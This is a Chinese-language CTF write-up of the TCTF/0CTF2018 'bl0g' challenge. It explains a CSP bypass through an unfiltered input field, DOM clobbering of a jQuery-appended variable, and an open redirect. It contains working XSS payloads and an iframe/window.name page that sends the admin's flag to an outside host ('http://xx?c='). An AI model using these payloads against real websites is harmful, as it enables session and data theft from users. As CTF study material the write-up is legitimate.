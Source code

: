 ```yaml
---
title: TCTF/0CTF2018 XSS bl0g Writeup
date: 2018-04-05 00:01:03
tags:
- CSP
- xss
---
```


刚刚过去的TCTF/0CTF2018一如既往的给了我们惊喜，其中最大的惊喜莫过于多道xss中Bypass CSP的题目，其中有很多多应用于现代网站的防御思路，其中的很多利用思路非常精巧，值得研究，所以这里我把xss题目单独出来博文，因为它们值得更多关注！

ps：writeup会在我复现整理完后不断分享出来...

<!--more-->


# bl0g #

```
An extremely secure blog

Just focus on the static files. plz do not use any scanner, or your IP will be blocked.
```

很有趣的题目，整个题的难点在于利用上

站内的功能都是比较常见的xss功能

1、new  新生成文章
2、article/xx 查看文章/评论
3、submit 提交url (start with http://202.120.7.197:8090/)
4、flag admin可以查看到正确的flag

还有一些隐藏的条件

1、CSP

```
Content-Security-Policy:
script-src 'self' 'unsafe-inline'

Content-Security-Policy:
default-src 'none'; script-src 'nonce-hAovzHMfA+dpxVdTXRzpZq72Fjs=' 'strict-dynamic'; style-src 'self'; img-src 'self' data:; media-src 'self'; font-src 'self' data:; connect-src 'self'; base-uri 'none'
```

挺有趣的写法，经过我的测试，两个CSP分开写，是同时生效并且单独生效的，也就是与的关系。

换个说法就是，假设我们通过动态生成script标签的方式，成功绕过了第二个CSP，但我们引入了`<script src="hacker.website">`，就会被第一条CSP拦截，很有趣的技巧。

从CSP我们也可以简单窥得一些利用思路，`base-uri 'none'`代表我们没办法通过修改根域来实现攻击，`default-src 'none'`这其中包含了`frame-src`，这代表攻击方式一定在站内实现，`script-src`的双限制代表我们只能通过`<script>{eval_code}`的方式来实现攻击，让我们接着往下看。

2、new中有一个字段是effect，是设置特效的

```
POST /new HTTP/1.1
Host: 202.120.7.197:8090
Connection: keep-alive
Content-Length: 35
Cache-Control: max-age=0
Origin: http://202.120.7.197:8090
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://202.120.7.197:8090/new
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: BL0G_SID=vV1p59LGb01C4ys4SIFNve4d_upQrCpyykkXWmj4g-i8u2QQzngP5LIW28L0oB1_NB3cJn0TCwjdE32iBt6h

title=a&content=a&effect=nest
```

effect字段会插入到页面中的`<input type="hidden" id="effect" value="{effect_value}">`，但这里实际上是没有任何过滤的，也就是说我们可以通过闭合这个标签并插入我们想要的标签，需要注意的是，这个点只能插入**70个字符**。

3、login?next=这个点可以存在一个任意跳转，通过这个点，我们可以绕过submit的限制（submit的maxlength是前台限制，可以随便跳转

4、站内的特效是通过jqery的append引入的，在article.js这个文件中。

```
$(document).ready(function(){
    $("body").append((effects[$("#effect").val()]));
});
```

effects在config.js中被定义。


回顾上面的几个条件，我们可以简单的整理思路。

**在不考虑0day的情况下，我们唯有通过想办法通过动态生成script标签，通过sd CSP这个点来绕过**

首先我们观察xss点周围的html结构

![image.png-21.3kB][1]

在整站不开启任何缓存的情况下，通过插入标签的方式，唯一存在一种绕过方式就是插入`<script a="`

这种插入方式，如果插入点在一个原页面的script标签前的话，有几率吃掉下一个script标签的nonce属性，举个例子：

```
<script a="
<script nonce="testtt">...

浏览器有一定的容错能力，他会补足不完整的标签
=====>

<script a="<script" nonce="test">...
```

但这个操作在这里并不适用，因为中间过多无用标签，再加上即使吞了也不能有什么办法控制后面的内容，所以这里只有一种绕过方式就是dom xss。

稍微翻翻可以发现，唯一的机会就在这里
```
$(document).ready(function(){
    $("body").append((effects[$("#effect").val()]));
});
```

如果我们可以覆盖effects变量，那我们就可以向body注入标签了，这里需要一点小trick。

**在js中，对于特定的form,iframe,applet,embed,object,img标签，我们可以通过设置id或者name来使得通过id或name获取标签**

也就是说，我们可以通过`effects`获取到`<form name=effects>`这个标签。同理，我们就可以通过插入这个标签来注册effects这个变量。

可如果我们尝试插入这个标签后，我们发现插入的effects在接下来的config.js中被覆盖了。

这时候我们回到刚才提到的特性，**浏览器有一定的容错能力**，我们可以通过插入`<script>`，那么这个标签会自动闭合后面config.js的`</script>`，那么中间的代码就会被视为js代码，被CSP拦截。

![image.png-34.4kB][2]

我们成功的覆盖了effects变量，紧接着我们需要覆盖`effects[$("#effect").val()]`，这里我们选择id属性（这里其实是为了id会使用两次，可以更省位数），

所以我们尝试传入

```
effect=id"><form name=effects id="<script>alert(1)</script>"><script>
```

![image.png-16.9kB][3]

成功执行

接下来的问题就在于怎么构造获取flag了，这里最大的问题在于怎么解决位数不够的问题，我们可以简单计算一下。

上面的payload最简化可以是

```
id"><form name=effects id="<script>"><script>
```

一共有45位，我们可以操作的位数只有25位。在有限的位数下我们需要获取flag页面的内容，并返回回来，我一时间没想到什么好办法。

下面写一种来自@超威蓝猫的解法，非常有趣的思路，payload大概是这样的

[https://blog.cal1.cn/post/0CTF%202018%20Quals%20Bl0g%20writeup](https://blog.cal1.cn/post/0CTF%202018%20Quals%20Bl0g%20writeup)

```
id"><form name=effects id="<script>$.get('/flag',e=>name=e)"><script>
```

通过jquery get获取flag内容，通过箭头函数将返回赋值给`window.name`，紧接着，我们需要想办法获取这里的window.name。

这里用到一个特殊的跨域操作

[http://www.cnblogs.com/zichi/p/4620656.html](http://www.cnblogs.com/zichi/p/4620656.html)

这里用到了一个特殊的特性，就是window.name不跟随域变化而变化，通过window.name我们可以缓存原本的数据。

完整payload
```
<html>
</html>

<script>
var i=document.createElement("iframe");
i.src="http://202.120.7.197:8090/article/3503";
i.id="a";
var state = 0;
document.body.appendChild(i);

i.onload = function (){
	if(state === 1) {
	  	var c = i.contentWindow.name;
	        location.href="http://xx?c="+c;

	} else if(state === 0) {
	  	state = 1;
	  	i.contentWindow.location = './index.html';
	}
}

</script>
```

然后通过`login?next=`这里来跳转到这里，成功理顺

最后分享一个本环境受限的脑洞想法（我觉得蛮有意思的

这个思路受限于当前页面CSP没有`unsafe-eval`，刚才说到`window.name`不随域变化而变化，那么我们传入payload

```
id"><form name=effects id="<script>eval(name)"><script>
```

然后在自己的服务器上设置

```
<script>
window.name="alert(1)";
location.href="{article_url}";
</script>
```

这样我们就能设置window.name了，如果允许eval的话，就可以通过这种方式绕过长度限制。









  [1]: http://static.zybuluo.com/LoRexxar/bz7gl9fs2q89pvezn6xm03xb/image.png
  [2]: http://static.zybuluo.com/LoRexxar/io54g5yal3om63po5w4e9qvn/image.png
  [3]: http://static.zybuluo.com/LoRexxar/4wljy4njhwsq583n1cpz8rvi/image.png
